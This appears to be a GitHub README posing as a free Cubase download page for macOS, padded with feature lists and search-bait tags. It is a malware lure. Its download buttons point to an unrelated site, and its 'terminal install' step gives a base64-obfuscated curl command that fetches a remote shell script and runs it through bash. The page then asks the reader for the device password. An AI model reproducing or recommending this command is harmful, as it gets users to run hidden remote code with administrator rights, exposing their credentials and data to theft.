 # 🎼 Cubase — Professional Music Production Software for macOS

**Cubase** is a powerful digital audio workstation (DAW) for macOS, developed by Steinberg, and used by composers, producers, and audio engineers worldwide. With its advanced MIDI editing tools, high-end audio engine, and professional-grade mixing features, Cubase is the ideal solution for music creation and production on Mac.

From orchestral scoring and electronic music to mixing and mastering, Cubase provides all the creative tools you need — fully optimized for macOS systems, including MacBook Air and MacBook Pro.

---

## ✅ Download Cubase for macOS  
[![Download Cubase](https://img.shields.io/badge/Download-Cubase-blueviolet)](https://shuziktobehuman.github.io/huja/Cubase)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Cubase?

Cubase is an industry-standard DAW offering a comprehensive suite of tools for composing, recording, editing, and mastering music on macOS. Whether you're crafting a full orchestral piece or producing a chart-topping beat, Cubase delivers precision, flexibility, and professional sound. It supports VST instruments, third-party plug-ins, and comes with an extensive sound library and built-in effects.

---

## ✨ Features

- 🎹 Advanced MIDI composition and piano roll editor  
- 🎧 High-resolution audio engine with 32-bit/192 kHz support  
- 🎚 Professional mixing console with integrated channel strip  
- 🔊 VariAudio for real-time pitch and timing correction  
- 🧠 Chord pads, chord assistant & scale assistant  
- 🖥 Fully optimized for macOS Ventura & Apple Silicon  
- 🔄 Seamless audio warping and time-stretching  
- 🛠 Supports VST3 plug-ins and external instruments  
- 📦 Built-in library of loops, samples, synths, and FX  
- 🎼 Score editor for film scoring and orchestration  

---

## 💡 Why Use Cubase?

- 🎵 Trusted by top composers and music producers  
- 🧩 All-in-one production suite for audio & MIDI  
- ⚡ Lightning-fast workflow and customizable interface  
- 🎛 Massive plugin support and flexible routing  
- 📈 Perfect for sound design, music production, and mixing  
- 🖱 Optimized for both Intel and Apple M-series chips  

---

[![Download Cubase](https://img.shields.io/badge/Download-Cubase-blueviolet)](https://shuziktobehuman.github.io/huja/Cubase)

---

## 🖼 Preview

![Cubase Screenshot 1](https://europe1.discourse-cdn.com/steinberg/original/3X/2/3/234c4f6ecb68e77b0f2d4cc253e4a229ef42c5f9.png)  
![Cubase Screenshot 2](https://ocl-steinberg-live.steinberg.net/_storage/asset/185232/storage/PNG_extra-large_5500px/185232-extra-large.png)

---

## 📌 Tags

cubase mac, cubase 5 for mac, cubase 5 mac os, cubase download for mac, cubase download free mac,  
cubase for macbook, cubase mac os, cubase mac os x free download, cubase osx,  
cubase pro mac, cubase elements mac, cubase vst mac, cubase studio mac,  
cubase music software mac, cubase m1 support, cubase intel mac, cubase apple silicon,  
steinberg cubase for mac

---
